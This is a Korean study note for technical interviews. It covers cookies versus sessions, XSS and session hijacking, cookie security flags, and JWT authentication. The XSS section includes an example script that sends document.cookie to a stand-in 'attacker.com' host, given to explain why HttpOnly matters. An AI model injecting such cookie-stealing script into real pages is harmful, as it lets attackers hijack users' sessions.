

# 1-0.  쿠키와 세션의 차이에 대해 설명해 주세요.

# **쿠키(Cookie)와 세션(Session)의 차이**

## **0. HTTP는 상태를 유지하지 않는다 (Stateless)**

HTTP는 기본적으로 **Stateless Protocol**이다.

즉, 서버는 사용자의 이전 요청을 기억하지 않는다.

예를 들어,

1. 로그인 요청

1. 상품 조회 요청

1. 장바구니 조회 요청

이 세 요청은 서버 입장에서 모두 독립적인 요청이다.

그래서 로그인 상태를 유지하기 위해 **쿠키**와 **세션**을 사용한다.

---

## **1. 쿠키(Cookie)**

쿠키는 **클라이언트(브라우저)에 저장되는 데이터**이다.

### **동작 과정**

```plain text
[로그인 요청]
Client → Server

[쿠키 발급]
Server → Client
Set-Cookie: userId=1234

[이후 요청]
Client → Server
Cookie: userId=1234
```

서버가 쿠키를 생성하면 브라우저가 저장하고,

이후 요청마다 자동으로 함께 전송한다.

### **특징**

- 클라이언트에 저장

- 브라우저 종료 후에도 유지 가능

- 서버 부하 감소

- 사용자가 직접 확인 및 수정 가능

- 보안에 취약

### **활용 예시**

- 아이디 저장

- 오늘 하루 보지 않기

- 다크모드 설정

- 자동 로그인

---

## **2. 세션(Session)**

세션은 **서버에 저장되는 사용자 상태 정보**이다.

실제 데이터는 서버가 관리한다.

### **동작 과정**

```plain text
1. 로그인 요청

Client → Server

2. 서버가 세션 생성

Session ID : ABC123
User 정보 저장

3. 서버가 Session ID 전달

Set-Cookie: JSESSIONID=ABC123

4. 이후 요청

Cookie: JSESSIONID=ABC123

5. 서버가 세션 조회

ABC123 → 사용자 정보 확인
```

중요한 점은 **세션도 결국 쿠키를 사용한다.**

다만 쿠키에는 사용자 정보가 아니라 **Session ID만 저장**된다.

---

## **3. 쿠키와 세션 비교**

| **구분** | **쿠키** | **세션** |
| --- | --- | --- |
| 저장 위치 | 클라이언트 | 서버 |
| 저장 데이터 | 실제 데이터 | Session ID를 통한 참조 |
| 보안 | 상대적으로 취약 | 상대적으로 안전 |
| 서버 부하 | 적음 | 큼 |
| 속도 | 빠름 | 상대적으로 느림 |
| 저장 용량 | 브라우저 제한 | 서버 자원에 의존 |
| 데이터 변경 | 사용자 가능 | 서버만 가능 |

- 쿠키는 **브라우저가 자동으로 헤더에 실어 보내므로** 별도 서버 조회가 없어 빠름.

- 단, 쿠키 크기가 크면 매 요청마다 헤더가 무거워져 **오히려 느려질 수 있음**.

- "일반적으로 서버 I/O가 없어 빠르지만, 용량에 따라 달라진다"고 하는 것이 정확함.

<details>
<summary>_한눈에 보기_</summary>


</details>

---

## **면접 답변 예시**

> Note 쿠키와 세션은 HTTP의 Stateless 특성을 보완하여 사용자 상태를 유지하기 위한 기술입니다.

쿠키는 클라이언트 브라우저에 데이터를 저장하는 방식으로 서버 부하가 적지만 사용자가 데이터를 확인하거나 수정할 수 있어 보안에 취약합니다.

반면 세션은 사용자 정보를 서버에 저장하고 클라이언트에는 세션 ID만 전달합니다. 따라서 보안성이 높지만 서버가 세션 정보를 관리해야 하므로 메모리 사용량이 증가합니다.

또한 세션 역시 클라이언트와 서버를 연결하기 위해 일반적으로 쿠키에 Session ID를 저장하여 사용합니다.

---

# **꼬리 질문 대비**

## **Q1. 세션은 쿠키를 사용하지 않고 구현할 수 없나요?**

가능하다.

대표적으로 URL Rewriting 방식이 있다.

```plain text
https://example.com/login;jsessionid=ABC123
```

하지만 URL 노출, 보안 문제 때문에 현재는 거의 사용하지 않는다.

대부분 쿠키를 사용한다.

---

## **Q2. 쿠키를 사용하면 왜 보안에 취약한가요?**

쿠키는 클라이언트에 저장되므로

- 사용자가 수정 가능

- 탈취 가능

- XSS 공격 대상

XSS(Cross-Site Scripting)는

**공격자가 웹 페이지에 악성 JavaScript 코드를 삽입하여 사용자의 브라우저에서 실행시키는 공격**입니다.

예를 들어 게시판에 이런 글을 올렸다고 가정해봅시다.

```html
<script>
alert('해킹!');
</script>
```

만약 서버가 입력값 검증을 제대로 하지 않으면,

다른 사용자가 게시글을 볼 때 해당 JavaScript가 실행됩니다.

---

# **쿠키가 왜 위험한가?**

브라우저의 JavaScript는 일반적으로 쿠키에 접근할 수 있습니다.

예를 들어

```javascript
document.cookie
```

를 실행하면 현재 사이트의 쿠키를 읽을 수 있습니다.

---

## **공격 예시**

사용자가 로그인한 상태라고 가정합니다.

```plain text
Cookie:
JSESSIONID=ABC123
```

공격자가 XSS 코드를 삽입합니다.

```html
<script>
fetch("https://attacker.com?cookie=" + document.cookie);
</script>
```

사용자가 해당 페이지를 방문하면

```javascript
document.cookie
```

가 실행되어

```plain text
JSESSIONID=ABC123
```

가 공격자 서버로 전송됩니다.

---

## **그 결과**

공격자는 탈취한 Session ID를 사용해서

```plain text
Cookie: JSESSIONID=ABC123
```

를 자신의 요청에 포함할 수 있습니다.

서버는

```plain text
"정상 사용자가 요청했네?"
```

라고 착각할 수 있습니다.

이것이 바로

**세션 하이재킹(Session Hijacking)** 입니다.

---

# **그래서 HttpOnly를 사용한다**

쿠키 생성 시

```plain text
Set-Cookie:
JSESSIONID=ABC123; HttpOnly
```

옵션을 주면

JavaScript가 쿠키를 읽을 수 없습니다.

즉

```javascript
document.cookie
```

로 Session ID를 탈취할 수 없게 됩니다.

---

# **추가로 알아두면 좋은 점**

면접에서

“쿠키는 사용자가 수정할 수 있어서 위험합니다.” 라고만 말하면 절반만 맞는 답입니다.

실제로는

  1. 사용자가 직접 수정 가능

  1. XSS를 통해 탈취 가능

  1. 네트워크에서 가로채일 가능성(HTTPS 미사용 시)

등이 주요 보안 위험입니다.

그래서 인증 쿠키에는 보통

```plain text
HttpOnly
Secure
SameSite
```

옵션을 함께 적용합니다.

---

### **한 줄 정리**

“쿠키가 XSS 공격 대상”이라는 말은 XSS 공격을 통해 JavaScript가 쿠키를 읽어 Session ID를 탈취할 수 있다는 의미이며, 이를 방지하기 위해 HttpOnly 옵션을 사용한다.

이 될 수 있다.

따라서 중요한 정보는 저장하지 않고

- HttpOnly

- Secure

- SameSite

옵션을 사용하여 보호한다.

---

## **Q3. 세션은 무조건 안전한가요?**

아니다.

세션 자체는 서버에 저장되지만 세션 ID가 탈취되면 공격자가 해당 사용자로 인증될 수 있다.

이를 **세션 하이재킹(Session Hijacking)** 이라고 한다.

---

## **Q4. 로그인은 왜 보통 세션을 사용하나요?**

로그인 정보는 민감한 데이터이므로

클라이언트에 직접 저장하지 않는 것이 안전하다.

따라서

```plain text
사용자 정보 → 서버 세션 저장
Session ID → 쿠키 저장
```

방식을 많이 사용한다.

---

## **Q5. JWT와 세션의 차이는 무엇인가요?**

| **구분** | **세션** | **JWT** |
| --- | --- | --- |
| 상태 관리 | Stateful | Stateless |
| 저장 위치 | 서버 | 클라이언트 |
| 서버 저장공간 | 필요 | 불필요 |
| 로그아웃 처리 | 쉬움 | 상대적으로 어려움 |
| 확장성 | 낮음 | 높음 |

세션은 서버가 상태를 저장함 → stateful

JWT는 사용자 정보를 토큰 안에 담아 클라이언트가 보관하는 방식이다.

## **1. JWT란?**

JWT(JSON Web Token)는 **사용자의 인증 정보를 담은 토큰(Token) 기반 인증 방식**입니다.

세션처럼 서버에 로그인 상태를 저장하지 않고, **클라이언트가 토큰을 보관**하여 인증에 사용합니다.

즉,

```plain text
세션 → 서버가 로그인 상태 저장 (Stateful)

JWT → 클라이언트가 로그인 정보가 담긴 토큰 보관 (Stateless)
```

---

## **2. JWT 구조**

JWT는 다음 3개 부분으로 구성됩니다.

```plain text
Header.Payload.Signature
```

예시

```plain text
eyJhbGciOiJIUzI1Ni...
.
eyJ1c2VySWQiOjEs...
.
xj3KQw4D...
```

### **Header**

토큰 타입과 암호화 알고리즘 정보

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

---

### **Payload**

사용자 정보(Claim)

```json
{
  "userId": 1,
  "role": "USER",
  "exp": 1719999999
}
```

주의할 점은

**Payload는 암호화되지 않는다.**

Base64 인코딩만 되어 있으므로 누구나 내용을 볼 수 있다.

따라서

```plain text
비밀번호
주민등록번호
민감한 개인정보
```

는 넣으면 안 된다.

---

### **Signature**

토큰 위변조 검증용 서명

```plain text
HMACSHA256(
  Header + Payload,
  SecretKey
)
```

사용자가 Payload를 임의로 수정하면 Signature가 달라지므로 서버가 위조 여부를 검증할 수 있다.

---

## **3. JWT 로그인 과정**

### **1) 로그인 요청**

```plain text
POST /login

username=user1
password=1234
```

---

### **2) 서버 인증**

DB에서 사용자 검증

```plain text
user1 / 1234
→ 인증 성공
```

---

### **3) JWT 발급**

서버가 토큰 생성

```json
{
  "userId": 1,
  "role": "USER",
  "exp": "2026-07-01"
}
```

↓

JWT 생성

```plain text
JWT_TOKEN
```

---

### **4) 클라이언트 저장**

```plain text
서버
 ↓
JWT 전달

클라이언트
 ↓
JWT 저장
```

보통

  - Local Storage

  - Session Storage

  - Cookie

중 하나에 저장한다.

실무에서는 보안을 위해 **HttpOnly Cookie**를 사용하는 경우가 많다.

---

### **5) 이후 요청**

```plain text
GET /mypage

Authorization: Bearer JWT_TOKEN
```

클라이언트는 요청마다 JWT를 함께 보낸다.

---

### **6) 서버 검증**

서버는

```plain text
1. Signature 검증
2. 만료시간(exp) 확인
3. 사용자 정보 추출
```

을 수행한다.

정상이라면 인증 성공이다.

---

## **4. JWT 인증 흐름**

```plain text
┌──────────────┐
│    Client    │
└──────┬───────┘
       │ 로그인
       ▼
┌──────────────┐
│    Server    │
└──────┬───────┘
       │ JWT 발급
       ▼
┌──────────────┐
│    Client    │
│ JWT 저장     │
└──────┬───────┘
       │ 요청
       │ Authorization: Bearer JWT
       ▼
┌──────────────┐
│    Server    │
│ JWT 검증     │
└──────────────┘
```

---

## **5. 세션과 JWT 비교**

| **구분** | **세션** | **JWT** |
| --- | --- | --- |
| 상태 저장 | 서버 | 클라이언트 |
| 서버 메모리 | 필요 | 불필요 |
| 인증 방식 | Session ID 조회 | 토큰 검증 |
| 확장성 | 상대적으로 낮음 | 높음 |
| 로그아웃 | 쉬움 | 상대적으로 어려움 |
| 서버 수 증가 | 세션 공유 필요 | 추가 작업 거의 없음 |

---

## **6. JWT의 장점**

### **서버가 상태를 저장하지 않는다**

```plain text
Server1
Server2
Server3
```

어느 서버가 요청을 받아도 JWT만 검증하면 된다.

---

### **확장성이 좋다**

MSA, 클라우드 환경에서 유리하다.

---

### **별도 세션 저장소가 필요 없다**

```plain text
Redis 세션 저장소
세션 클러스터링
```

등이 필요하지 않다.

---

## **7. JWT의 단점**

### **로그아웃이 어렵다**

세션

```plain text
서버 세션 삭제
→ 즉시 로그아웃
```

JWT

```plain text
토큰이 만료되기 전까지 유효
```

따라서 강제 로그아웃이 어렵다.

---

### **토큰 탈취 시 위험**

JWT를 훔치면

```plain text
Authorization: Bearer JWT_TOKEN
```

만으로 인증이 가능하다.

---

### **토큰 크기가 크다**

매 요청마다 토큰을 전송하므로 네트워크 비용이 증가한다.

---

# **실무에서 많이 사용하는 방식**

보통

### **Access Token**

```plain text
유효시간 짧음
(30분 ~ 2시간)
```

---

### **Refresh Token**

```plain text
유효시간 김
(7일 ~ 30일)
```

을 함께 사용한다.

```plain text
로그인
 ↓
Access Token 발급
Refresh Token 발급

 ↓

Access Token 만료

 ↓

Refresh Token으로 재발급
```

---

# **면접 답변 예시**

JWT는 JSON Web Token의 약자로, 사용자 인증 정보를 토큰에 담아 클라이언트가 보관하는 인증 방식입니다.

사용자가 로그인하면 서버는 사용자 정보를 검증한 후 JWT를 발급하고, 클라이언트는 이를 저장합니다.

이후 요청마다 Authorization 헤더에 JWT를 포함하여 전송하고, 서버는 토큰의 서명과 만료 시간을 검증하여 인증을 수행합니다.

세션과 달리 서버가 로그인 상태를 저장하지 않기 때문에 Stateless한 인증 방식이며, 서버 확장성이 뛰어나다는 장점이 있습니다.

반면 토큰 탈취 시 위험하고 로그아웃 처리가 상대적으로 어렵다는 단점이 있습니다.

---

# **꼬리 질문 대비**

## **Q. JWT도 결국 쿠키를 사용하나요?**

사용할 수도 있고 사용하지 않을 수도 있습니다.

JWT는 **토큰 형식**이고,

쿠키는 **저장 위치 및 전달 방식**입니다.

예를 들어

```plain text
JWT 저장
 ├─ Local Storage
 ├─ Session Storage
 └─ Cookie
```

모두 가능합니다.

---

## **Q. JWT는 암호화되어 있나요?**

아닙니다.

일반 JWT는 암호화가 아니라 **서명(Signature)** 만 포함합니다.

따라서 Payload는 누구나 볼 수 있습니다.

---

## **Q. JWT는 왜 Stateless인가요?**

서버가 사용자 로그인 상태를 저장하지 않기 때문입니다.

서버는

```plain text
세션 조회 X

JWT 검증 O
```

만 수행합니다.

---

# **한 줄 정리**

JWT 로그인은 서버가 로그인 상태를 저장하지 않고, 사용자 정보를 담은 토큰을 클라이언트가 보관하여 요청마다 전송하고 서버는 토큰의 유효성만 검증하는 Stateless 인증 방식이다.

---

# **한 줄 정리**

쿠키는 클라이언트에 데이터를 저장하는 기술이고, 세션은 서버에 사용자 상태를 저장하는 기술이며, 일반적으로 세션 식별을 위해 쿠키에 Session ID를 저장하여 사용한다.
